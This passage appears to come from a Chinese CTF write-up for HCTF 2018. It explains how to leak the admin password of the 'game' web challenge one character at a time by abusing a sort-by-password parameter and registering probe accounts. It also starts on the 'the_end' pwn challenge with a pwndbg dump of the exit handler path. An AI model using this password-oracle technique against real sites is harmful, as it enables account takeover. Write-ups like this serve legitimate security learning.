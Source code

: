 ## game

这里可以根据pass降序排列:

`http://game.2018.hctf.io/web2/user.php?order=password`

因而，可以一位一位的爆破出password。

比如:

首先注册一个密码为`d`的用户，该用户最终会出现在`id为1，用户名为admin`的用户之后。

在注册一个密码为`e`的用户，该用户最终会出现在`id为1，用户名为admin`的用户之前。从而可以确定admin的密码第一位为`d`,反复注册即可。

# Pwn

## the_end

当执行exit函数的时候，会清空缓冲区，`_IO_2_1_stdout_`结构便起了很大的作用。

### 方法1

`exit -> exit + 16 -> __run_exit_handlers+18 -> __run_exit_handlers+230 -> _dl_fini+126`

```
pwndbg> 
0x00007ffa38b80b2e	153	in dl-fini.c
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────[ REGISTERS ]───────────────────────────────────
 RAX  0x90
 RBX  0x539
 RCX  0x7ffa38d96040 (_rtld_global) —▸ 0x7ffa38d97168 —▸ 0x55a87726f000 ◂— jg     0x55a87726f047
 RDX  0x7ffa38b80ab0 (_dl_fini) ◂— push   rbp
 RDI  0x7ffa38d96948 (_rtld_global+2312) ◂— 0x0
 RSI  0x539
 R8   0x7ffa38b6c780 (_IO_stdfile_1_lock) ◂— 0x0
 R9   0x7ffa38d78700 ◂— 0x7ffa38d78700
 R10  0x0
 R11  0x246
 R12  0x7ffa38d96048 (_rtld_global+8) ◂— 0x4
 R13  0x7ffa38b6bc40 (initial) ◂— 0x0
 R14  0x0
 R15  0x0
 RBP  0x7ffd96fb0c60 —▸ 0x7ffa38b6a5f8 (__exit_funcs) —▸ 0x7ffa38b6bc40 (initial) ◂— 0x0
 RSP  0x7ffd96fb0bd0 ◂— 0x6562b026
 RIP  0x7ffa38b80b2e (_dl_fini+126) ◂— call   qword ptr [rip + 0x216414]
────────────────────────────────────[ DISASM ]─────────────────────────────────────
   0x7ffa38b80ae4 <_dl_fini+52>     lea    rcx, [rip + 0x215555] <0x7ffa38d96040>
   0x7ffa38b80aeb <_dl_fini+59>     shl    rax, 4
   0x7ffa38b80aef <_dl_fini+63>     lea    r12, [rcx + rax - 0x88]
   0x7ffa38b80af7 <_dl_fini+71>     jmp    _dl_fini+119 <0x7ffa38b80b27>
    ↓
   0x7ffa38b80b27 <_dl_fini+119>    lea    rdi, [rip + 0x215e1a] <0x7ffa38d96948>
 ► 0x7ffa38b80b2e <_dl_fini+126>    call   qword ptr [rip + 0x216414] <0x7ffa388962a4>
        rdi: 0x7ffa38d96948 (_rtld_global+2312) ◂— 0x0
        rsi: 0x539
        rdx: 0x7ffa38b80ab0 (_dl_fini) ◂— push   rbp
        rcx: 0x7ffa38d96040 (_rtld_global) —▸ 0x7ffa38d97168 —▸ 0x55a87726f000 ◂— jg     0x55a87726f047
 
   0x7ffa38b80b34 <_dl_fini+132>    mov    ecx, dword ptr [r12]
   0x7ffa38b80b38 <_dl_fini+136>    test   ecx, ecx
   0x7ffa38b80b3a <_dl_fini+138>    je     _dl_fini+80 <0x7ffa38b80b00>
 
   0x7ffa38b80b3c <_dl_fini+140>    mov    rax, qword ptr [r12 - 8]
```
